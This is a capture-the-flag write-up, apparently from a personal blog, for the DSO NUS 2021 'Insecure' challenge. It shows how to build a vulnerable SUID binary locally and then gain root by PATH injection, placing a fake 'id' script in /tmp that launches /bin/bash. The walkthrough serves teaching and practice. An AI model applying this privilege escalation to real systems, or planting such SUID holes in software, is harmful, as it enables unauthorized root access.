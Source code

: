 ```yaml
---
title: DSO NUS CTF - Insecure
date: 2021-08-02 17:19:00 +0800
categories: [ctf]
tags: [pwn, linux, suid]
---
```


# Description

> Someone once told me that SUID is a bad idea. Could you show me why?
> 
> This challenge server can be accessed here:
> 
> (Any one of the options below is fine)
> (Suggested access via '`nc`')  
> `nc ctf-85ib.balancedcompo.site 9999`  
> `nc ctf-sn3y.balancedcompo.site 9999`  
> `nc ctf-rv6w.balancedcompo.site 9999`  
> `nc ctf-ptb1.balancedcompo.site 9999`  
> `nc ctf-f3jj.balancedcompo.site 9999`  
> `nc ctf-4q22.balancedcompo.site 9999`  
> `nc ctf-7jca.balancedcompo.site 9999`  
> `nc ctf-ea38.balancedcompo.site 9999`  
> `nc ctf-jfi4.balancedcompo.site 9999`  
> `nc ctf-ks5n.balancedcompo.site 9999`  
> 
> Files (Any of the links are fine):  
> [insecure](/assets/misc/insecure)
> 
> *Debug the Pwn challenges locally on your system before connecting to the remote challenge server to exploit and get the flag.
> 
> Flag format conversion may have to be done for this challenge (Refer to notifications)

# Recreating the environment

Note: Make sure to run the below commands as `root`.

## 1. Creating a fake flag

There was a file called `flag.txt`, which contained the flag and was located at the root directory so lets create it.

```bash
$ echo -n "DSO-NUS{FAKE_FLAG}" > /flag.txt
```

Make sure that no other users are able to read it.

```bash
$ chmod 700 /flag.txt
```

## 2. Installing the `insecure` binary 

Download the `insecure` binary from any of the download links and copy it to the `/bin` directory.

```bash
$ cp /root/Downloads/insecure /bin/insecure
```

Assign the appropriate permissions and set the owner to `root`.

```bash
$ chown root:root /bin/insecure
$ chmod 755 /bin/insecure
```

Make sure to also set the `SUID` bit.

```bash
$ chmod u+s /bin/insecure
```

Verify that the permissions should look like this:

```bash
$ ls -al /bin/insecure             
-rwsr-sr-x 1 root root 6848 Mar  5 09:35 /bin/insecure
```

## 3. Logging in as an unprivileged user

Create a new user that the contestants will privilege escalate from.

```bash
$ useradd -s /bin/bash unprivileged
```

Switch user to this new user before starting the challenge.

```bash
$ su unprivileged
```

# Solution

After `nc`-ing to any one of the endpoints, we instantly get a shell as a low-privileged user.

```bash
unprivileged@kali:/$ id
uid=1001(unprivileged) gid=1001(unprivileged) groups=1001(unprivileged)
```

In the root directory, we see that there is a file called `flag.txt` but we did not have the permissions to read it.

```bash
unprivileged@kali:/$ ls -al /flag.txt
-rwx------ 1 root root 18 Mar  5 09:46 /flag.txt
unprivileged@kali:/$ cat /flag.txt
cat: /flag.txt: Permission denied
```

In the `/bin` directory, there was a binary called `insecure`, which did not seem like something that you normally see on Linux systems.

```bash
unprivileged@kali:/$ ls -al /bin/insecure
-rwsr-sr-x 1 root root 6848 Mar  5 09:35 /bin/insecure
```

We see that we have the permission to execute it so lets try executing it.

```bash
unprivileged@kali:/$ /bin/insecure
I am a SUID binary and can run in varying levels of privilege!

Now, I run in a less privileged context.
uid=1001(unprivileged) gid=1001(unprivileged) groups=1001(unprivileged)

Next, I wil run in a more privileged context.
uid=0(root) gid=1001(unprivileged) groups=1001(unprivileged)

Once I am done, as a good practice, I should return my privileges.
And I run in a less privileged context again.
uid=1001(unprivileged) gid=1001(unprivileged) groups=1001(unprivileged)
```

On closer inspection of the output, we can break down what it is actually doing:

1. In the current low-privileged context, it runs the `id` command.
2. It then shifts to a high-privileged context and runs the `id` command again to show that it is running as `root`.
3. It then shifts back to the low-privileged context and runs the `id` command to show that it has returned back to the original context.

This is actually made possible due to the `SUID` bit that was set on the `insecure` binary which can be seen in the `s` in the permissions.

```bash
unprivileged@kali:/$ ls -al /bin/insecure
-rwsr-xr-x 1 root root 6848 Mar  5 09:35 /bin/insecure
```

The `SUID` bit allows other users to run the `insecure` binary as the owner of the file, which in this case is `root`.

To better understand the underlying implementation of the `insecure` binary, we can retrieve a copy of it from the download links provided and run the `ltrace` command to list out the library calls performed by the binary.

```bash
$ ltrace insecure 
...
system("id"uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),133(scanner),141(kaboxer),998(docker)
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                   
...
system("id"uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),133(scanner),141(kaboxer),998(docker)
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                   
...
system("id"uid=1000(kali) gid=1000(kali) groups=1000(kali),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(bluetooth),133(scanner),141(kaboxer),998(docker)
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                           = 0
+++ exited (status 0) +++
```

We see that the `id` command was indeed being executed via the `system()` library call, but note that the path of the `id` command is not absolute. 
This means we can perform `PATH` injection to trick the system into running an `id` binary of our choice.

In the shell as the unprivileged user, create a file called `id` in the `/tmp` directory and enter `/bin/bash` into it.

```bash
unprivileged@kali:/$ echo "/bin/bash" > /tmp/id
```

Assign the appropriate permission to make sure any users are able to execute it.

```bash
unprivileged@kali:/$ chmod 777 /tmp/id
```

Now run the `insecure` binary but alter the `PATH` variable such that the system will look for the `id` binary from `/tmp` first.

```bash
unprivileged@kali:/$ PATH=/tmp:$PATH /bin/insecure
I am a SUID binary and can run in varying levels of privilege!

Now, I run in a less privileged context.
unprivileged@kali:/$
```

Enter `exit` and we will get a shell as `root`.

```bash
unprivileged@kali:/$ exit
exit

Next, I wil run in a more privileged context.
root@kali:/# /usr/bin/id
uid=0(root) gid=1001(unprivileged) groups=1001(unprivileged)
```

We can now read the contents of the flag.

```bash
root@kali:/# cat /flag.txt
DSO-NUS{FAKE_FLAG}
```